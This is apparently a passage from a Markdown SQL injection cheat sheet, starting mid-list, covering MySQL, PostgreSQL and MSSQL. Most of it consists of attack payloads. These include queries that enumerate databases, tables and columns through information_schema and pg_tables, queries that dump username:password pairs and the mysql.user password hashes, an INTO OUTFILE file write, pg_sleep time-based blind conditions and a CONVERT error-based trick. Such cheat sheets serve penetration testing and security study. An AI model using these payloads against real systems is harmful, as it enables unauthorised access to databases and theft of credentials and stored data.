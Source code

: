     - `group_concat()`
    - Concatenate multiple data to one line string
- String Length
    - `length()`
- Row counts
    - `count()`
- Current db
    - `database()`
- Distinct item
    - `distinct()`
#### Dump Data
- DB name
    - `select schema_name from information_schema.schemata`
- Table name
    - `select table_name from information_schema.tables where table_schema='{db_name}'`
- Column name
    - `select column_name from information_schema.columns where table_name='{table_name}' and table_schema='{db_name}'`
- Select data
    - `select concat({username},':',{password}) from {db_name}.{table_name}`
- Mysql User and hash
    - `select concat(user,':',password) from mysql.user`
- Command dump
    - `mysqldump -u {username} -h localhost -p {dbname}  > a.sql`
        - `--all-databases`
#### File
- Write file
    - `SELECT "meow" INTO OUTFILE "/tmp/a";`
### PostgreSQL injection
- Current 
    - db
        - `current_database()`
    - schema
        - `current_schema` (without `()`)
- DB names
    - `SELECT datname FROM pg_database`
- Schema names
    - `SELECT schemaname FROM pg_tables`
- Table names
    - `SELECT tablename FROM pg_tables WHERE schemaname='{schemaname}'`
- Column name
    - `SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' and table_schema='{schema name}'`
- Select Data
    - `SELECT {column} FROM {SCHEMA}.{TABLE}`
- Conditional time delays
    - `SELECT CASE WHEN ({condition}) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- Order By
    - `... ORDER BY (CASE WHEN 1=0 THEN id ELSE length(name) END)`
### MSSQL injection
#### SQL Command
- `SELECT quotename({col_name}) FROM {DB} FOR XML PATH('')`
    - Like `group_concate` in MySQL
- `SELECT TOP 1 {COL_NAME} FROM {TABLE}`
    - `SELECT TOP 1 {COL_NAME} FROM {TABLE} WHERE {COL_NAME} NOT IN ('A','B')` 
- `SELECT {COL_NAME} FROM {DB_NAME}.dbo.{TABLE}`
    - Select other DB
- `CONVERT(int,{command})`
    - Error based
- Concatenation String
    - `'aaa'+'bbb'`